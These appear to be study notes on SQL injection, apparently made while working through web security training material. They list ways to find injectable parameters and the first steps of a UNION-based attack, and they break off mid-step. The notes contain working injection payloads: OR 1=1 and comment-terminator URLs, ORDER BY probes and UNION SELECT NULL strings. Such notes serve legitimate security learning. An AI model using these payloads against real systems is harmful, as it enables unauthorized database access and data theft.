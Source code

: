# SQL Injection

- SQL injection cheat sheet: <https://portswigger.net/web-security/sql-injection/cheat-sheet>

![SQLi1](../../../markdownImages/2023-06-16-19-19-57.png)

## What to look for/how to find vulnerabilities

- Attack Scan in Burp/ZAP
- query parameters in URL:

  `https://insecure-website.com/products?category=Gifts`

  Attack with:

  ```https
  https://insecure-website.com/products?category=Gifts'--
  https://insecure-website.com/products?category=Gifts'+OR+1=1--
  https://insecure-website.com/?user'+OR+1=1--
  ```

- login forms
- input fields

## Step-by-Step: Reflected Attack with UNION based SQL injection

- SQL injection UNION attacks --> this is useful to retrieve data from other tables, when query results are **reflected** on the page or to get the column data type of a query

  - Steps:

    1. involves injecting ORDER BY --> modifies original query to order results by different columns in result set; when specified column index exceeds number of actual columns, database an error...

       ```sql
       -- Payloads:
       ' ORDER BY 1--
       ' ORDER BY 2--
       ```

    2. submit series of UNION SELECT payloads specifying different number of null values --> if number of nulls does not match number of cols, DB returns error; when number of nulls matches number of columns, DB returns additional empty row in result set

       ```sql
       -- Payloads:
       ' UNION SELECT NULL--
       ' UNION SELECT NULL,NULL--
       ' UNION SELECT NULL,NULL,NULL-- etc.
       ```

    3. having already determined how many columns there are, we can probe column type use UNION SELECT with specific payload e.g. for strings:
